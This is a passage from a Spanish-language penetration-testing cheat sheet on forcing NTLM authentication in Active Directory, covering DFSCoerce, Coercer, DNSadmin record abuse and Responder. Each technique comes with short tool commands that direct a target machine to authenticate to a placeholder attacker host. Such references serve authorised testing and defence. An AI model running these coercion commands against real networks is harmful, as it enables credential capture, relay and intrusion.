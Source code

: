 **Herramientas y comandos:**
- **Linux:**  
  - **DFSCoerce:**  
    ```bash
    python3 dfscoerce.py <TARGET> <attacker_host>
    ```

[Volver al índice](#índice-de-técnicas)

---

## 6. Coercer (Multiprotocolo)
| Aspecto         | Detalle                                                                                          |
|-----------------|-------------------------------------------------------------------------------------------------|
| **Descripción** | Herramienta multiprotocolo que automatiza la coerción usando varios protocolos y servicios.      |
| **Condiciones** | Dependen del protocolo elegido (EFSRPC, MS-RPRN, VSS, DFS, etc.).                               |

**Herramientas y comandos:**
- **Linux:**  
  - **Coercer:**  
    ```bash
    python3 coercer.py -t <TARGET> -l <attacker_host>
    ```

[Volver al índice](#índice-de-técnicas)

---

## 7. ADIDNS/DNSadmin
| Aspecto         | Detalle                                                                                          |
|-----------------|-------------------------------------------------------------------------------------------------|
| **Descripción** | Abusa de privilegios DNSadmin para crear registros maliciosos que fuerzan autenticaciones.       |
| **Condiciones** | Privilegios DNSadmin sobre el servidor DNS de AD.                                               |

**Herramientas y comandos:**
- **Windows:**  
  - **PowerShell / SharpDNS / scripts:**  
    ```powershell
    Add-DnsServerResourceRecordCName -Name <fake> -HostNameAlias <attacker_host> -ZoneName <zone>
    ```
- **Linux:**  
  - **SharpDNS / scripts personalizados**

[Volver al índice](#índice-de-técnicas)

---

## 8. Responder (LLMNR/NBT-NS/WPAD/mDNS)
| Aspecto         | Detalle                                                                                          |
|-----------------|-------------------------------------------------------------------------------------------------|
| **Descripción** | Herramienta que explota la falta de autenticación en protocolos de resolución de nombres (LLMNR, NBT-NS, WPAD, mDNS) para capturar o relayar hashes NTLM de usuarios que intentan acceder a recursos inexistentes. |
| **Condiciones** | Protocolos LLMNR/NBT-NS/WPAD/mDNS habilitados en la red y usuarios accediendo a recursos no existentes.  |

